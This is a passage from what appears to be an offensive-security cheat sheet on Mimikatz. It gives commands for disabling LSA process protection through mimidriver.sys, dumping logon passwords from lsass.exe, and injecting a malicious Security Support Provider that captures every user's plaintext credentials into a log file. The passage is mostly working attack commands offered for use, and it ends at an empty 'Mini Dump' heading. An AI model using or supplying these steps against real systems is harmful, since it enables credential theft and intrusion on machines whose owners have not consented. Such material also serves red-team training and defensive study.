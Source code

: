 :warning: To take effect, conditions are required :
- Win7 / 2008R2 / 8 / 2012 / 8.1 / 2012R2:
  * Adding requires lock
  * Removing requires signout
- Win10:
  * Adding requires signout
  * Removing requires signout
- Win2016:
  * Adding requires lock
  * Removing requires reboot

## Mimikatz - LSA Protection Workaround

- LSA as a Protected Process
  ```powershell
  # Check if LSA runs as a protected process by looking if the variable "RunAsPPL" is set to 0x1
  reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa

  # Next upload the mimidriver.sys from the official mimikatz repo to same folder of your mimikatz.exe
  # Now lets import the mimidriver.sys to the system
  mimikatz # !+

  # Now lets remove the protection flags from lsass.exe process
  mimikatz # !processprotect /process:lsass.exe /remove

  # Finally run the logonpasswords function to dump lsass
  mimikatz # privilege::debug    
  mimikatz # token::elevate
  mimikatz # sekurlsa::logonpasswords
  
  # Now lets re-add the protection flags to the lsass.exe process
  mimikatz # !processprotect /process:lsass.exe
  
  # Unload the service created
  mimikatz # !-
  ```

- LSA is running as virtualized process (LSAISO) by **Credential Guard**
  ```powershell
  # Check if a process called lsaiso.exe exists on the running processes
  tasklist |findstr lsaiso

  # Lets inject our own malicious Security Support Provider into memory
  # require mimilib.dll in the same folder
  mimikatz # misc::memssp

  # Now every user session and authentication into this machine will get logged and plaintext credentials will get captured and dumped into c:\windows\system32\mimilsa.log
  ```


## Mimikatz - Mini Dump
